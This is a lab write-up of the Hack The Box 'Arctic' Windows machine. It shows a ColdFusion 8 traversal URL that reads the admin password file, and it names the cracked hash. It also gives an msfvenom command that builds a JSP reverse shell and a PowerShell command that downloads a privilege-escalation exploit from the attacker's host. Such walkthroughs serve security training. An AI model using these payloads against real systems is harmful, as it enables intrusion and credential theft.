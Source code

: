 ```yaml
---
layout: post
title:  "HTB Artic Windows"
description : Tools and techniques used, LFI, hashkiller
tags: HTB, Coldfusion, hashkiller
---
```


# HTB Artic
# Recon

```ruby
Nmap scan report for 10.10.10.11
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
# Exploitation
* We noticed that port `8500` is open.This port is used for Adobe ColdFusion.
* We investigate further and we find a web app running.  

![](https://lh3.googleusercontent.com/MPpzTT1fUn_dnDqNFBouPgLrdpz42g_boV6kvtZ3zSICG9i2U-lt3006mkvihoNRm1oSaCHCi8iBmigihL0GfaSm95zNPU9BHLXOcgWb42UHFa_SHej_z9aegRpYcXxP_7n-AlseZt0y055LAPkdgum54nA9qfedtkcGDvXg5bRRPjn59IJtWHyI4QUommXcHA3jauzjo0XfeURw-k-rkL4dEMFmqE55yBRYW288P-Fzp6pB-f38WCBYo2c6-5lLHwVo4QdGCV05ddO7O2yn-xBAV0H-YHQvhaUpQ1CK-roJG0TA_QPONcsTi0NfLvtQwD-MPRswxMdSEPOASC2h1UD4C8NgvERwo8IuruMzy1S2j_aemAmaWLKvxYvQqe7Y83KFa_sfS7IwAetqCKdKbwSMXHWwy1aK1_eWIKWvmVncDqttJKd9OBjq8f6O8IFeNUeCnIfteEXLN4upff6w_dlw7fgcK2z42pEoE1VwRKFsqt5oUMN868TWmQp5EXI3cTGPstS_4zesKMIL_4Mm4hJaY11iYfJt8VYBhTSZB5zo6s-TgW2JU7JwwLI2pq4dC6VMNTZot-Uok4yJLrFsU8i_XQ9Jry6L5YDZBNT76Q6kwgXb2_2M1blO-8SgxhxZUK_z3ezZ8dZTUT8z8jueFt81cjDjutQwZ0Ct50GPVkg5bYl1AaNRRTo=w404-h195-no)

![](https://lh3.googleusercontent.com/1q7e_7yA20GcWefxFljf6vTMus6fJJgTnPKexMrJzFkmB23569xCcwDCI-BxlgO6VorvW1AHHx6WVy8XmLIZIjJDL6T5xcCNhMInaAcYMjI4yqc_LX1ma3krqMY-ODBUBJiGPoYYd883g3XdbqpNfEyGGntGnAvMI94h4r5hgPHo5sfcq4c24qGRygvGLgyy6to6V8Nr3zzGft3GdkfwzND_ZbkpVE_MMiyd0xAWCw_qp3xMIhIpOJjOmV0gGFXuoZtynOWAG7TkAmmAcuLjaqluMPPvYrSxgllQ1bcxYN1pm3geTJ3g3fU69Te6oESiQ9bcLfNOx0DJCxwWtKbhASc7YjjSnU-s-sx-kyl3c55zerlWuJAbEG8_u3aTIfBMOIpBR6rYNQL41UTrMhaCZpwyz1eopzxKtwexZTSBJSqIPgqB3EO3kmCKrBpoe1EZA7nlQh6sjE36lYxnVtzYAIdlRMUewU8yjhLAuXfTbFoJ4yUNZjo10iYnB785EZLzy3XpoHX1a6-tbzV8W3A8Htfa4kvGShj_BiuzEBiK9gl_wrEM1KolRwPToOc9h16EBtJm1F6ATh7Fl3xW8ugovrClcC6w7kL1-IMg0EWyFQC7yffOk-qisVZ7elliubcFO_CoKbygVv0hDn6MO9yq_AppdbZlf23kzdIiDhSboVBc2O98H56vJO8=w523-h297-no)

* Finally we we're able to locate the admin page. This provides us with very important information like the adobe version running.
* Some googlefu reveals that this version of Adobe is vulnerable to LFI.
- PoC:
```
 http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
```
* So we exploit the admin page to obtain the password hash for the admin user

![](https://lh3.googleusercontent.com/A22EMJ2VPNOYLkGD_fhb8FZODYdwUEF70hiMtKuMPrsFMN2QRrQtiYPrAZPp33oKbh9SUpP9jrDgC_x1KTXY20qqHWWSxcLOL9lrfkiIFqDUSY5CJYu7btbqeHQv82NtXIUW8nzVwX4ZGPfB3dgKSYXyL6QVwqA17I0fRlCcTtMt1LYZoduWkLrUmSsIPys0w-vFox_2FgaB2kakMItBT9Lby4AhQRMGvCfR4CurxMxkSbDohkio8qD54I4Z-aWAxZMdAf9PQzJXxcqLg035_M0_zhpZ30HVVYW3iFZ0I5oC7gPzxmUWESbbEgjgOmfQrowb3VQP2GEK9f-jtYBELSeDJ2KIs_OQ637jWgZQ2zu6L1PRtiOY7ah3QtscgFKicn52Q29XYw059K_SZX3sKJpPq-HwbnO2RuQJhjH1v7kvqm7XRiy35PKM7lA-bKZoBwLeDj54Gm48pQicOGWjWf8780LePz9-5GEQqjBK8JA1z4Pl6oq5rDVbcv5wz3HUnrZCYZjbVbwFnMhxmfOEvkY6tPg1eKtHjA4DoaqFIh0Zf2c-FMiN4wvwpE3g2Vs8v765muJEwQAWcFm5I3ImRUIxQ-7fw_qiuwFSnWbGeTjQnL58sJ63natllTMtoOW5mwXS754quSI4PP95T2H2bdJhwVRQngAqL6Vc2u0AS6b7znw0IGxv4yI=w520-h464-no)



* We crack the hash using a cracking website `https://hashkiller.co.uk/Cracker` and we our SHA1 password `happyday`

* We login using the admin password

![](https://lh3.googleusercontent.com/a0jn07Idy0VE8z77tsRLB2OsJdk07-9WyiXiFDOAAMECzfW5yClAyQDBtR911AtC2hMcV0HXk9CfnRwfl6OV_Xxdn-UGHlsrFArhFATwdMwOmobatWaPjsJFaSDpRPVnWmDWYRdokCne1PJXcR_fx-OOQce5W2mCNqYmyu2qzF4eYyQPfXzukDhDkIS2Sn05EYpeNa8C0spY-J08tPVIryxPWDs5Ddb1WvKqCRT7gWYPT0Aml-LQ5Ofq2bDFrhhwtUQOu2V9FYS84p06CV7DWuxGqtRV5sR5MHDTnnoWvawDyT2MeRG_uDlFL0JfEIx7A4_zVyifA3F9GPbSzG9pUUdPh26IWJZQKDRRNZXjo7ZqbdWnVtFVEC0JNFUqQqe3PR8vs2eIGN3aDpKo-_SVPUL44myOU8zr1EKqr5uSR2gNiPmB-P-2F8p5OY5FS54owfScwuJsyNh6TcR1_kpX4uLrjgVfVoz5GBjORHaXPbKPWh2yNlMipSRk30mUafo1ObJIw-ZCy5nWHW2dTw-r6Qy4kJzRdkPHAcvSkRN3lkXvtkkbTpS_IhS8FiBSd8-TvFf4k7hktXmIqVonquQY-82uhQOQhkj9fkJJZDdbce304fs__zSyT9QOCH43ZLQt3nJn4cCW3JXUhE9SMfaXfN6eVOtWZMbWSJT9iJbbAjVIKXunlUQXyvw=w601-h491-no)

# Exploitation
Once on the admin panel we choose scheduled tasks option from inside Debugging & logging for scheduling new task.
![](https://lh3.googleusercontent.com/LEq9ySUtSZiercJCBL1BhGUM9G7a3DF87T01ALBPnrg0Y6Q8lNkOuI-g0MuHjsu7p6A8kI4PsGmE8SjA_55jN8gHCOBKUIfXGAx9S3FYQyA0HTyV5qTZhYVAHj82MV4yn1QREOS9xrzSXy0IzIb32OGlRzcr_sEnFlpKG0eLEu77-dwmBaflfRN86vNzAvUu6OCrEsu0v4rSZYlfR9ysxs1X-qNDFzRQtFg7xsyRrZxsuFugvxhWv72kbzQDCV8_ry_4BAjw4gWgNOMM9DP-3AOKhi9LqD3dK3ru-HC2wRvZ-UAQMUVmwdHA2rbn9zH6O6HHHW-FG8FEqDgvW5U-EFxBiMvlmYQGlBRSPe1ru3t8aEn-pqOa39uOXLpPvw3N3dJNpSVJKHseXkR0OwfHVI_j6pcf2cPn_zIVIddDX9Vf3Hb4OmWxIz8iiHz84gtc4Q-sNaOSyd0RbeQqnAtxk5LrZVzvP3wd2VlC6daMVmy_I6qUc_4c2MV-mhKPrqQOBNx0KpNK-LY-d42bwa0Hw47v2D9d2hcOSr2a2mgWAnDMgJmJWpWxBpqLLUPuMwwpLQsq06IBT_KkT6VZoKHgq6xeKggKrOmKDsQR3yGHWS1u7VxH-r1HWQSnAv_iBG1lU-H5NnSftPZ7uzOGmByit4fBl5Kzf8YkqxNHVSqDF8iNKgjGujK0Xwk=w660-h411-no)

![](https://i1.wp.com/2.bp.blogspot.com/-LjTRFFM_1ro/Wr-nXwWY4mI/AAAAAAAAV5I/j392zbTSVSAnnxhTwrWklhQL0hizsgLiQCEwYBhgL/s1600/9.png?w=687&ssl=1)


From the schedule task settings we can upload or .jsp shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to
Connect On> -f raw > shell.jsp
```
We set up apache to serve our payload.
![](https://lh3.googleusercontent.com/Min2o6TIiNxI-w_6sZkca7T7KNOT1fNgjn6feJlQS2vkgQie689AejBaHHqejyQY-nFFpENPqcZ1DP4AVNFNkXg8_i0dC8sH0R_4wLjGEzn2r--p4UO3nANVgF5K7wUDqk-9PhUalvrVhRqZ5AUPOuM8blGw8xOicCz-FmtAYOaz1yLvAjCwC4qcZVnUUKLW9Spw3cbbcjRWvHtdgCeOpwRhMHKv5lRYu64cgp-ie_qWsFudR8CdHKVJHrm2VopUUgw3QyZY6bnrZu3LZLIlvaCsVTVPnQbszTmlaRcbwxxAg1pjzE0j8IarAgQuHq64pUlTRLXXTWDlCmPO1FpWIgldozhU8fqu7Gb3it-OStT-s15EHto_2afBh9kj08qj87rKy-iPYwijXt9lO9niZj8Z9aQ7xv4P497XaSm9oa9XwbwPfOKwLJKUbhuOCcXdpCX1tWBxqSddzWikNaFk-3QW92MbfxTCHxdPCPO3u9M3M45q2ACNrQ74zLefB-OLPnmWHEEK_pocCa5wDgBTLZek0_xSCLt_x7w0YyttR-ZkJzFVtOXaL_xlYlTaaERRFQoBdzpYb_xCc2-vacEkzyoRwJIvQPmQAsraTStiZOsafDPq-U0ebr-2XHg1G1kXDGs-tQaYY67jBu0JYLv5gbqjLzT03LGvU7znxeBUjxC9r2g41pY0u7o=w1027-h245-no)

Then we proceed to run the task so our payload can be executed
![](https://lh3.googleusercontent.com/veug3uR-KmVK52EuD7-30Ogj9fDcl5kKRq09M3GFg0kCYbjVrbqFxa5TRIdM3YQuWK_1f_s-Y1oeXgl3XT8IRIuDkrsblzW6ph5IC8jwPFmy8HlzTCdr69PdeWqfLr4xEUqdvzvdRnFlj6S4-JvlMKy7tPQVpmb9EmKWoMhRVH1ydrHKb-3CdqD0hOn-v_70n-SwVHiH_amiu5ZKzhRntirWYNadxOehED8INqiXltTb6FQCyX0mLf9bwDyhwkKDo62WqTELPqXmdeRb5YGYATRqLqHKTNw85eIwerUaacgw9NrfpiWbfcvtGrYzAGogC661qTV9k2ljwWrvmr-YJApEo77rVe-lSR4w9yc_AGDqfuBjkqpAk7SbGEzN0VFr3TYBuxOsFe2fnk_yBqCa2jfSVGlmmJ3eqhWl0l9VqcnSpQnJjvLLS2cumQm_czk1jQaTzi5L-zbEfuB4YWzSbtvc073MWyGJrMFiBAsoc1HRvsz0hrqCo2Uwp9C7yrK-w03YCauhxuA-iZiIcGqv_V9zED0bdMkxG6UIVBrEBMdcTZbIhUbXN22TOmyVctxcl6G_rzmpaoBslO4r1IHBrXw1JTeRh-ONNsVkeet4FS_aINDcThry4-qgQ7eKRx918zFAfKWl9Du7QPozdLVkoBMLKGwu54sRuZgYof_NTBzjrrw9V1O3fzE=w611-h256-no)

Finally, we set up an nc listerner and we catch our shell.
![](https://lh3.googleusercontent.com/W__r2reVLTX0-3dTnY1fHPVfnwnJnCudwSOdykpYWPwjtPnY9eeqNDYvmPvRKWiK3A7rk1v8vCi2aJTdacu0mqswn2NJuD5fXbcqSGmSQVn8DFfhq5XBqOpyYh8M8DREdpeW3_Tz0L8fV9ZtIcgIce_D83SYhDyXgCqh9l3bCUbjPPS2hgzqnmc4lEniZqf_H1az5vrXe_b5z5kt1sSGbhtbMrmANvjIqDswKKOFfECRsImNYwQhWN_h2cECwoh9ZSbdmLSsGL1YWLeO5Ul_HyflbSE1RReHm4U2Myc_D2D6Slmw_xMUNhfAdttVj66vy-Ve1oyY0QER_zDMEuoKvrYdI7ySFZrp7yJ7ZKSkJiCe1huswyJAHvyeE4fdNU8ffRdWiWMooQFD3aHcSx1vi3YyDqmOWhzsjWrkrsUzdqhOWUC-N86nnVxWhcUFV99yhc7sShtymX9xES1mFKtPdUpwdMbG0PNMbSTpZx6chrAQKZqM36IfGUjkx6fDwsJFCQDp4VHp10-4CrGU1W4PsL3Vo7imPTZfDQ1mwHm2mZDyE6cddXMojT2nB6GhU5AKkTUL9GQpqllKyfsHJ1UU1SQ4WjvJW74OKso5Nf2CAHHw9Psa5lPQXGNAc-Z-oRFznWSL6nGYXC6bQdoPhwTxGb4SwyB7sJiik-h_6Tvn4ECV3foiSMLWsmY=w671-h230-no)

# Privilege Escalation
We run windows suggeters and after a lot trials and errors I find a suitabl exploit
* MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799)

```ruby
python windows-exploit-suggester.py --database 2019-10-11-mssb.xls --systeminfo
systeminfo.txt
```
After some google I find a compiled version of the exploit, we dowload the file and run it
```
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.14/
Chimichurri.exe', 'Chimichurri.exe')"
```
![](https://lh3.googleusercontent.com/epn8X8AntKErOlKnNUuVw1nK6LXq32S5kuCC27WqFVE21wmFWkCB0jYswzA_R7FE_VySFOnC35HPiUsp-WdXHusyJfK8T8kl2gqw3GX0pcEIf9Dsnq4E26YeIipm-09eV3ChIW3-hsAe_iKKLQ1JGDNB6bd5UYKIujfoZwlfk5db_H9YIIrggCJz0fWKfkXOd9toqrK2TimuVtTkUYC8VEJHTeCE0GMTICabHeERzM1chvTHUsR93mbj3_JsTOrK3xpWlUcKpxcxssonCXrQwNO82yWvsRP15n5eWa7OYMD76iDbi8aAfUr1b2TdlNaHdIl3Js7C4SPv4cpWd46WBt640jSm2hC8F8Kf61FqjzTPIhwvRRiyQRxMdqnNttv0Wepn1fQ3VNd5EMo67kDP6ZEAlVtbutI6FpZ3SdFhr0F0jawrgxTEvh6QdoyVE7e-Mj_IxJDJYPcA-_f8hAv0_Zi-7H09pMAL6zt-BGCqCe5-4pydPNOQi7pZuRff1KKChiv8SlawqG1-G5V6O0INztk4vxIJTUFCLTfK8GQXi2A-XOtuCwMJgNX0PgfyS4HG1TyVxrli9YE_32uTj8dUnMRlkY_7a8vlKe7Oty-_b4sJ2g66fCSVZx5PlhO8vvNOsempaSCwGl6U9r9GIy6m7fM7IikramDNYbZHfKB5BPqrrFawAk-La2M=w1327-h497-no)

![](https://lh3.googleusercontent.com/diUlDO3Ebgxfj1_edvI_NVTUb5dJNV_ffuJ_cUVOToqr3JwXpfRmx94DtSnrxXSL2w4QoG7h5hZIt468Lg_btTvVgQGA4AU-7wN9FoYz1IKx4bG_0GknHdZYQh0Oc-YQXdEHYnUaAPt7dVcNxGhzUdRkAi06ZzZDrBWUwzG45yRbbMpq7IZe5x7Gc6GUx8HIs9qHi__LjFqgQQhmBsiwuIGGYT0_dSTG5xvdAB1JLNte7YUZ5FaDzdMWRNQWUO5ExoD_G9hm27znUO_sAttyJkS2o_B1c6zHB3brIkJMgot6GqvJJuiIG__CRkZJ7q5_m32jCjFhqagmpIhl1XkXYJKMLKLq6b6UXu3lpWQoAUV7kU5z1nJ0BD1ztKnRFToZTewG0rc6aCTJHF0O8w_G28KMLtS5_786lodnceDdEEIzh4kf5h_JxsbZjSXiFTPlCwQUU_tZb8HJwQxsYdnWTkm7GMcluG_0z68Bt5vmrToLJ6v_r2eXjmPyxSRh1-6ZwSTv9MvKD0jcaxBzVYtiU_Pivk-VzTrOrtqNNNVZTCQhx22OlXlRV-0-A_FeTvPAa2tzLYjsLQ3EvIgUBLOFMQkKCdcRZwR7lGK2LCtJDDgcr8xlj9rIVOS3djjGKJETRLspPm_54KCkvhX3XbRnDAwMSL6a-ZgmPQXNzyHCLNh_xbk6Gut-8TM=w640-h466-no)

